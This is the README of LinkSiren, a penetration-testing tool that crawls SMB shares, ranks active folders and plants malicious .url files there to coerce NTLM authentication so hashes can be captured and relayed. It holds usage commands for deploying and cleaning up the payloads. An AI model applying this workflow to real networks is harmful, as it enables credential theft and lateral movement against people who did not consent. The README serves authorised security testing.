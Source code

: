 # LinkSiren

## What is this tool?
LinkSiren distributes .url files to accessible file shares to coerce NTLM authentication from hosts that open them, like [Farmer](https://github.com/mdsecactivebreach/Farmer/tree/1f37598125a92c9edf41295c6c1b7c258143968d), [Lnkbomb](https://github.com/dievus/lnkbomb), or [Slinky](https://www.infosecmatter.com/crackmapexec-module-library/?cmem=smb-slinky) but with prioritized locations and scalable deployment and cleanup.

## How do I use this NOW?
```bash
git clone https://github.com/gjhami/LinkSiren.git && cd LinkSiren
python -m pip install -r requirements.txt
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets <shares file> --identify
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets folder_targets.txt --deploy
# Capture hashes
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets payloads_written.txt --cleanup
```

## How do I use this the \~right\~ way?
```bash
# Get the project
git clone https://github.com/gjhami/LinkSiren.git
cd LinkSiren

# Set up a virtual environment and install requirements
python -m venv .venv
source ./.venv/bin/activate # Linux
# .\.venv\Scripts\activate # Windows
python -m pip install -r requirements.txt

# 1. Create a targets file containing accessible shares, one per line, in the following format: \\server.domain.tld\share
#    I recommend crackmapexec or shareenum 
# 2. Use LinkSiren to identify the most active folders on them
#    Note: You may fine tune the --max-depth, --active-threshold, --fast, and --max-folders-per-share params as necessary
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets <shares file> --identify
# 3. Use LinkSiren to deploy payloads to all of the active folders
#    --identify saves UNC paths to active folders in folder_targets.txt
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets folder_targets.txt --deploy
# 4. Let the hashes come to you and relay them as you see fit :) (I recommend CrackMapExec and LdapRelayScan for target identification)
# 5. Cleanup the payload files when you're finished gathering.
#    Set targets to a file containing UNC paths of all folders where payloads were written
#    --deploy saves UNC paths to deployed payloads in payload_folders.txt
#    Note: If you set a custom payload name (--payload) when deploying, you must set the same name here
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets payloads_written.txt --cleanup
```

## How is this better than the other tools?
Other tools are built to place a single malicious .url file at a specified location and clean up that one malicious .url file. If you find yourself with access to a lot of shares you may want things to scale and you may not be in the mood to write a wrapper. LinkSiren crawls shares you currently have access to and ranks every subfolder based on the liklihood it will be opened by a user sometime soon. Then it uses this information to target malicious .url file distribution to multiple locations at once. Additionally, LinkSiren records the full UNC path of every .url file it creates, allowing for cleanup with a single command.

Summary
- Scales to an arbitrary number of .url files
- Targeted .url placement
- Single command cleanup
- Cross platform with python
  
## How will you make it even better?
I'm looking to add the following features:
- [ ] Start the WebClient service on targets using searchConnector-ms and library-ms files (see [The Hacker Recipes](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/webclient#start-the-webclient-service) and [Farmer Source Code](https://github.com/mdsecactivebreach/Farmer/blob/main/crop/Crop/Crop.cs))
- [ ] Coerce HTTP authentication with WebDAV connection strings (see [The Hacker Recipes](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/webclient#abuse))
- [ ] Add a progress bar for share crawling
- [ ] Enable ticket based authnentication (Kerberos)
- [ ] Multithreading/Multiprocessing for faster share crawling

## Note
This tools is designed for ethical hacking and penetration testing. It should be used exclusively on networks where explicit, written permission has been granted for testing. I accept no responsibility for the safety or effectiveness of this tool. Please don't sue me.
